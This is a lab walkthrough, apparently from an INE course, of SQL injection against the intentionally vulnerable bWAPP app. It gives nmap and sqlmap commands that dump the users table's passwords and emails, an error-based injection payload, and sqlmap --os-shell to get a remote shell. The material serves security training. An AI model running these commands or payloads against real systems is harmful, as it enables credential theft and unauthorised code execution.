 # SQL injection
In this lab environment, the user is going to get access to a Kali GUI instance. The bWAPP web application can be accessed using the tools installed on Kali on http://demo.ine.local

Objective: Perform SQL Injection attack on the web application with SQLMap!

# 1. Find open port
Scan the machine for open port: $nmap demo.ine.local
![nmap](nmap.png)
Its two open port 80 for http and 3306 for mysql.

# 2. Browse the website
After we browse to the website:
![landing](landing.png)
Log inn to the website with the given bWAPP login information:
- Username: bee
- Password: bug

# 3. Try out SQL injection (GET/search)
When you type in hello and click search. THe searchbar will include the input "hello".
![hello](hello.png)

# 4. Fire up burp with foxyproxy
Search for "hello" again, but this time intercept with burp.
![burp](burp.png)
Take the cookie from the intercept and use it with sqlmap.

# 5. SqlMap with cookie
Run sqlmap with this command: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title
![sqlmap](sqlmap.png)
Outcome says that title is injectable.

# 6. Send the same request to repeater for more investigation
Try out the different payload.
Request:
![request](request.png)
Response:
![response](response.png)

# 7. Dump database
Use the same command with -dbs: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title -dbs
The outcome:
![outcome](outcome.png)

# 8. Last steps to get whole database
Dump tables: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables
![tables](tables.png)

Dump columns: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns
![columns](columns.png)

Dumps users variable: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump
![admindata](admindata.png)

# 9. Change over to SQL injection (POST/SEARCH)
1. Turn on intercept at burp after change bug.
2. Search for "hello"
3. Intercept with burp and choose action then copy to file and save as request.
4. Run sqlmap with this file: $sqlmap -r request -p title

# 10. Back to burp
Send the request from burp over to Repeater.
Try out one of the payload: $title=Hello' AND (SELECT 9239 FROM(SELECT COUNT(*),CONCAT(0x717a787071,(SELECT (ELT(9239=9239,1))),0x7162627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'avHv'='avHv&action=search
![duplicate](duplicate.png)
We will get a duplicate error.
Change out the pass function with version function:
- title=Hello' AND (SELECT 9239 FROM(SELECT COUNT(*),CONCAT(version(),(SELECT (ELT(9239=9239,1))),0x7162627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'avHv'='avHv&action=search
![osversion](osversion.png)
With the function we can dump the os version of the database.

# 11. Get OS shell
Run sqlmap with os shell tag: $sqlmap -r request -p title --os-shell
![shell](shell.png)
Choose the standard choice. After the scan you will get os-shell.